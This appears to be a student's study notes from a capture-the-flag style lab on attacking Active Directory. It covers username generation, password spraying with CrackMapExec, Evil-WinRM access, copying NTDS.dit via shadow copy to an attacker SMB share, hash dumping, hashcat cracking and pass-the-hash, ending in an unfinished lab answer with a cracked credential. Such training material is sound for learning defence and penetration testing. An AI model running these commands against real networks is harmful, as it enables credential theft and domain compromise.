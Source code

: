 # Attacking Active Directory & NTDS.dit

Here we will learn how we can extract credentials through the use of a `dictionary attack against AD accounts` and `dumping hashes` from the `NTDS.dit` file.

our target must be reachable over the network. This means it is highly likely that we will need to have a foothold established on the internal network to which the target is connected.

Here is the authentication process once a Windows system has been joined to the domain.

<figure><img src="../../../../.gitbook/assets/image (3).png" alt=""><figcaption></figcaption></figure>

Once a Windows system is joined to a domain, it will `no longer default to referencing the SAM database to validate logon requests`. That domain-joined system will now send all authentication requests to be validated by the domain controller before allowing a user to log on.

To bruteforce our way into the network, we need to know patterns orgs can utilize when creating employee usernames ->

| Username Convention                 | Practical Example for Jane Jill Doe |
| ----------------------------------- | ----------------------------------- |
| `firstinitiallastname`              | jdoe                                |
| `firstinitialmiddleinitiallastname` | jjdoe                               |
| `firstnamelastname`                 | janedoe                             |
| `firstname.lastname`                | jane.doe                            |
| `lastname.firstname`                | doe.jane                            |
| `nickname`                          | doedoehacksstuff                    |

an same goes for the email -> `jdoe`@`inlanefreight.com`

Let's say we have some employees&#x20;

* Ben Williamson
* Bob Burgerstien
* Jim Stevenson

using the tool [Username Anarchy](https://github.com/urbanadventurer/username-anarchy), we can convert a list of real names into common username formats.

```shell-session
ElFelixi0@htb[/htb]$ ./username-anarchy -i /home/ltnbob/names.txt 

ben
benwilliamson
ben.williamson
benwilli
benwill
<SNIP>
```

Once we have our list(s) prepared or discover the naming convention and some employee names, we can launch our attack against the target domain controller using a tool such as CrackMapExec.

```shell-session
crackmapexec smb 10.129.201.57 -u bwilliamson -p /usr/share/wordlists/fasttrack.txt
```

### Capturing NTDS.dit

`NT Directory Services` (`NTDS`) is the directory service used with AD to find & organize network resources. Recall that `NTDS.dit` file is stored at `%systemroot%/ntds` on the domain controllers in a [forest](https://learn.microsoft.com/en-us/windows-server/identity/ad-ds/plan/using-the-organizational-domain-forest-model). The `.dit` stands for [directory information tree](https://docs.oracle.com/cd/E19901-01/817-7607/dit.html). This is the primary database file associated with AD and stores all domain usernames, password hashes, and other critical schema information

**Connecting to a DC with Evil-WinRM**

Once we have our set of credentials we can try and connect to the DC

```shell-session
evil-winrm -i 10.129.201.57  -u bwilliamson -p 'P@55w0rd!'
```

Once connected, we can check to see what privileges `bwilliamson` has.

```shell-session
*Evil-WinRM* PS C:\> net localgroup
```

To make a copy of the NTDS.dit file, we need local admin (`Administrators group`) or Domain Admin (`Domain Admins group`) (or equivalent) rights.

**Checking User Account Privileges including Domain**

```shell-session
*Evil-WinRM* PS C:\> net user bwilliamson
<SNIP>
Local Group Memberships
Global Group memberships     *Domain Users         *Domain Admins
<SNIP>
```

This account has both Administrators and Domain Administrator rights which means we can do just about anything we want

We can use `vssadmin` to create a [Volume Shadow Copy](https://docs.microsoft.com/en-us/windows-server/storage/file-server/volume-shadow-copy-service) (`VSS`) of the C: drive because NTDS will be stored on C: as that is the default location selected at install, but it is possible to change the location.

```shell-session
*Evil-WinRM* PS C:\> vssadmin CREATE SHADOW /For=C:
```

Then to copy the file we need to create an SMB share on our attack host

We can then copy the NTDS.dit file from the volume shadow copy of C: onto another location on the drive to prepare to move NTDS.dit to our attack host.

```shell-session
*Evil-WinRM* PS C:\NTDS> cmd.exe /c copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy2\Windows\NTDS\NTDS.dit c:\NTDS\NTDS.dit
```

Now `cmd.exe /c move` can be used to move the file from the target DC to the share on our attack host.

```shell-session
*Evil-WinRM* PS C:\NTDS> cmd.exe /c move C:\NTDS\NTDS.dit \\10.10.15.30\CompData 
```

**Using cme to Capture NTDS.dit**

This is much more faster&#x20;

```shell-session
crackmapexec smb 10.129.201.57 -u bwilliamson -p P@55w0rd! --ntds
```

### Cracking Hashes

Now we can copy the output of the attack and put every NT hash in a txt file to launch hashcat

```shell-session
ElFelixi0@htb[/htb]$ sudo hashcat -m 1000 64f12cddaa88057e06a81b54e73b949b /usr/share/wordlists/rockyou.txt
```

`What if we are unsuccessful in cracking a hash?`

&#x20;We can still use hashes to attempt to authenticate with a system using a type of attack called `Pass-the-Hash` (`PtH`). A PtH attack takes advantage of the [NTLM authentication protocol](https://docs.microsoft.com/en-us/windows/win32/secauthn/microsoft-ntlm) to authenticate a user using a password hash. Instead of `username`:`clear-text password` as the format for login, we can instead use `username`:`password hash`

**Pass-the-Hash with Evil-WinRM Example**

```shell-session
ElFelixi0@htb[/htb]$ evil-winrm -i 10.129.201.57  -u  Administrator -H "64f12cddaa88057e06a81b54e73b949b"
```

_**On an engagement you have gone on several social media sites and found the Inlanefreight employee names: John Marston IT Director, Carol Johnson Financial Controller and Jennifer Stapleton Logistics Manager. You decide to use these names to conduct your password attacks against the target domain controller. Submit John Marston's credentials as the answer. (Format: username:password, Case-Sensitive)**_

```
./username-anarchy/username-anarchy -i listofpeaople.txt > lastusername.txt
```

<figure><img src="../../../../.gitbook/assets/image (2) (1).png" alt=""><figcaption></figcaption></figure>

```
crackmapexec smb 10.129.202.85 -u lastusername.txt -p fasttrack.txt
```

<figure><img src="../../../../.gitbook/assets/image (3) (1).png" alt=""><figcaption></figcaption></figure>

```
cjohnson:Welcome1212
```

Did not manage to finish this, will come back later ->

##
